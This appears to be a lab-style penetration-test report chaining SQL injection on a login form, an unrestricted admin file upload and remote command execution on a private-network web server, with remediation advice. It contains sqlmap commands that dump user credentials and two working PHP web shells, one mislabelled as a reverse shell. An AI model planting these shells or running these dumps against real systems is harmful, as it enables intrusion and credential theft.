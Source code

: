 # Vulnerability Report: Authenticated File Upload + SQL Injection in Web Application + RCE

**Severity**: Critical  
**Tools Used**: rustscan, Nikto, SQLMap, Netcat  
**Suspicious Activity Detection & Threat Actor Behavior Simulation**  
**CVE**: Custom Web Application Vulnerability
**Impact**: Remote Code Execution (RCE) via Web Shell  
**Affected Host**: Target Linux Web Server  
**Access Level Gained**: Remote shell with same privileges as web server process  

---

## 1. Vulnerability: SQL Injection on Login Page

**Risk Description**:  
A SQL Injection (SQLi) vulnerability was discovered in the `password` parameter of the login form. This allows an attacker to bypass authentication and extract sensitive data from the backend database.

**Exploitation Method**:
- Initial discovery through manual testing and confirmed using SQLMap.
  ![Screenshot 2025-05-30 230336](https://github.com/user-attachments/assets/2b691c47-a02e-47db-8b2b-e884e2648424)

  - SQLMap can be used now , because it is vulnerable by sqli by manual testing.
  
  `sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password --risk=3 --level=5 --batch`

  ![Screenshot 2025-05-31 204224](https://github.com/user-attachments/assets/bac3fb25-9db2-4ad0-9045-bcb1d8645600)

  
  - SQLMap was used against the login endpoint by specifying the vulnerable parameters and dumped user credentials.
  
  `sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password -T users --dump --batch`

  ![Screenshot 2025-05-31 204420](https://github.com/user-attachments/assets/cb14eb27-4781-4aaa-9a0d-59b3ee146c54)

  ![Screenshot 2025-05-31 204548](https://github.com/user-attachments/assets/2d6c0666-069e-48ae-bc5e-49b5fe7839bf)

  
**Recommendation**:
- Use parameterized queries (prepared statements) to prevent SQL injection.
- Validate all user inputs strictly.
- Implement a Web Application Firewall (WAF).
- Regularly update and patch all components of the web application stack.

---

## 2. Vulnerability: Unrestricted File Upload in Admin Panel

**Risk Description**:  
The admin interface allows uploading of files without proper validation or filtering of file extensions. This permits an attacker to upload and execute a web shell on the server.

**Exploitation Method**:
- Used valid credentials (gathered from SQLi) to log into the admin dashboard.
- Uploaded a PHP-based web shell by bypassing client-side file validation.
- Accessed the shell via its URL path, enabling arbitrary command execution.

**PHP Shell**:
 **`<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>`**

![Screenshot 2025-05-31 211505](https://github.com/user-attachments/assets/d0255c20-dce6-4148-a152-5595500cc4ac)


**Recommendation**:
- Restrict uploads to specific safe file types (e.g., `.jpg`, `.png`).
- Validate file MIME types and extensions server-side.
- Store uploads in non-executable directories.
- Disable execution permission on uploaded files.
- Sanitize filenames and scan for malware signatures.

---

## 3. Vulnerability: Remote Code Execution via Reverse Shell

**Risk Description**:  
Using the uploaded PHP shell, an attacker can execute system commands. This leads to full remote code execution and shell access over the network.

**Exploitation Method**:
- Launched a reverse shell from the web shell to the attacker's listener.
- Netcat was used to establish a reverse connection back to the attacker.

  ![image](https://github.com/user-attachments/assets/33e5274a-76dc-49dc-b0c4-cb25c0236174)


**Payload**:
- Reverse shell: `<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>`

  ![Screenshot 2025-05-31 211904](https://github.com/user-attachments/assets/fda305c9-4c7e-4620-b1ad-d1d50f675444)


**Impact**:
- Shell access with privileges of the web server user.
- Potential for lateral movement and further exploitation.

**Recommendation**:
- Prevent execution of user-uploaded content.
- Harden the web server configuration.
- Use AppArmor/SELinux to restrict what processes can do.
- Implement intrusion detection to monitor for reverse shell activity.
- Conduct regular audits and monitor logs for abnormal behaviors.

---
